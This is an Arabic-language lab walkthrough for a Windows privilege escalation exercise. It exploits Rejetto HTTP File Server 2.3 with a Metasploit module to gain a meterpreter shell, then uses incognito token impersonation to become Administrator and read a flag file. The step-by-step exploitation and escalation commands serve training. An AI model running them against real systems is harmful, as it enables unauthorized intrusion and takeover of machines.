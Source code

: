 
راح نبداء باللاب الثاني الي هو 

Privilege Escalation: Impersonate
---------------------------------|  

طبعا هذا اللاب فكرته بالاكسبلويت نفس الاكسبلويت السابق ف بنسوي نفس الخطوات الفرق فقط في طريقة رفع الصلاحيات  
طبعا زي مانشوف الان معطينا التارقت راح نسوي له فحص سريع بالـ nmap
[nmap -sV 10.0.28.7]  

نشوف ان بورت 80 شغال عليه HTTPFileServer 2.3  
وهو مصاب بثغرة RCE  
طبعا راح نبحث عن الاكسبلويت سواء في قوقل او فيه اداة searchsploit utility  
طبعا هذي الاداة تستخدم قاعدة بيانات موقع exploitdb  
لكن الي يفضل يستخدم الموقع يقدر يستخدمه او يستخدم هذي الادة   
[searchsploit hfs]  
طبعا نلاحظ الان انه حصلنا الاكسبلويت الي هو Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)  

راح نستخدم الـ MSFconsole في الاستغلال
نفتح الفريم وورك بالامر التالي
[msfconsole]  
ونستخدم هذا الموديول  
[use exploit/windows/http/rejetto_hfs_exec]  
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر  
[show options]  
نشوف انه طالب فقط الـ RHOST  
نعطيه القيمه لهذا المتغير المطلوب  
[set RHOSTS 10.0.28.7]  
[exploit] or [run]

والان قدرنا ناخذ meterpreter shell  

طيب الان وصلنا مرحلة رفع الصلاحيات راح نشوف مع بعض هذي الطريقة  
طبعا نشوف الان الـ Server username  
[getuid]  

طبعا لو حاولت ترفع صلاحياتك بهذا الامر ماراح تقدر  
[getsystem]  

طبعا راح نستخدم اداة اسمها incognito راح نستدعيها بهذا الامر  
[load incognito]  

الان راح نشوف التوكنز الموجوده عندنا وحنا راح ننتحل توكن عنده اعلى الصلاحيات  
[list_tokens -u] هذا الامر عشان نشوف كل التوكنز الموجوده  

نشوف انه الان عرض لنا التوكن حقنا وحق الـ Administrator الان راح ننتحله بهذا الامر  
[impersonate_token ATTACKDEFENSE\\Administrator] وقلنا ندبل الباك سلاش لانه الميتربريتر يتعبر الوحده سكيب وليس باك سلاش ف راح يحذفها  

الان طبعا اخذنا اعلى صلاحيات ونتاكد عن طريق الامر هذا  
[getuid]  
ونشوف انه معنا صلاحيات Administrator وهي اعلى صلاحيات الويندوز  

مطللوب مننا نقرا الفلاق فقط بهذا الامر  
[cat C:\\Users\\Administrator\\Desktop\\flag.txt]  
الان قريناه وانتهى اللاب نشوف الي بعده  

---